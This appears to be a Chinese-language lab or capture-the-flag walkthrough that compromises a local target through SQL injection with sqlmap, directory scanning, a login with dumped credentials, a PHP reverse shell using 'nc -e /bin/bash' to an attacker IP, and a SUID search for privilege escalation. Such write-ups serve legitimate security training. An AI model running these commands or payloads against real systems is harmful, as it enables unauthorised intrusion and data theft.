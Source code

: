 ![image-20240824112309158](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824112309158.png)

- 网站内容我不关心,都是welcom什么的,但是观察url很明显发现了有个参数``?nid=``像极了``sql注入``的样子

```
//数据获取
sqlmap -u "http://192.168.21.164/?nid=1" --dump
```

![image-20240824124311075](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824124311075.png)

- 密码破解

![image-20240824125248000](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824125248000.png)

- 这里提取到了用户``账号``和``密码``,但是不是用来进行登录系统的
- 继续执行``dirb http://192.168.21.164``进行web目录扫描

![image-20240824144442744](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824144442744.png)

- 到这里发现有个``robots``协议,里面放置了哪些数据可以爬取哪些不能,目前状态码为``200``,可以访问看看有没有敏感目录信息

![image-20240824144807496](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824144807496.png)

- 发现了``用户登录``页面,应该是能够登录刚才爆破出来的``john``用户

![image-20240824144902628](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824144902628.png)

![image-20240824145129770](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824145129770.png)

- 登录后发现是可以``表单设置``这里可以执行php代码

```php
<?php system("nc -e /bin/bash 192.168.172.131 1234"); ?>
```

![image-20240824153213343](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824153213343.png)

![image-20240824150231695](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824150231695.png

![image-20240824145537755](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824145537755.png)

- 监听``nc -lvvp 1234``等待``靶机反弹shell``

![image-20240824145830047](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824145830047.png)

![image-20240824145936623](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824145936623.png)

![image-20240824151904595](C:\Users\24937\Desktop\学习\笔记\assets\image-20240824151904595.png)

```cmd
//使用交互式shell
find / -user root -perm -4000 -print 2>/dev/null
```
